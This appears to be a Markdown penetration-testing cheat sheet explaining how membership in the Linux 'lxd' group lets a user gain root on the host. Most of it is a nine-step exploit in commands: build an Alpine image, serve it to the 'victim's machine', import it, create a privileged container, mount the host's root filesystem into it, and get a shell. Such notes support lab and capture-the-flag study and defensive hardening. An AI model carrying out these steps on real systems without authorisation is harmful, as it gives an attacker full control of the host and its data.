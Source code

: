 # LXD Group: Privilege Escalation

LXD is a daemon running as root.

Access control for LXD is based on **group membership**. The root user as well as members of the `lxd` group can *interact with the local daemon*. Anyone added to `lxd` group will have **full control** over **LXD**, which includes the ability to attach host devices and filesystems. Users can gain **root access to the host**.

**LXD-client** `lxc` is a command line tool to manage the LXD servers.

## Exploiting LXD Group Access

1. Check if current user is part of the high-privileged **LXD** group

        $ groups
        lxd

2. Clone the [LXD Alpine Linux image builder](https://github.com/saghul/lxd-alpine-builder) repository and build an alpine image

        git clone  https://github.com/saghul/lxd-alpine-builder.git
        cd lxd-alpine-builder
        ./build-alpine

3. Upload the alpine image (`filename.tar.gz`) to victim's machine

        python3 -m http.server 8080

4. Import this image into the image store (on victim's machine)

        lxc image import alpine-v3.3-x86_64-20160114_2308.tar.gz --alias rootimage

5. Create a **privileged container** from the imported alpine image

        lxc init rootimage CONTAINER_NAME -c security.privileged=true

6. Mount the host file system to `/mnt/root` folder on the container

        lxc config device add CONTAINER_NAME mydevice disk source=/ path=/mnt/root recursive=true

7. Start the container

        lxc start CONTAINER_NAME

8. Get shell access on the privileged container

        lxc exec CONTAINER_NAME /bin/sh

9. Navigate to `/mnt/root/`

        cd /mnt/root/

## References

* https://www.hackthebox.eu/
* https://linuxcontainers.org/lxd/getting-started-cli/#initial-configuration
* https://linuxcontainers.org/lxd/docs/master/security
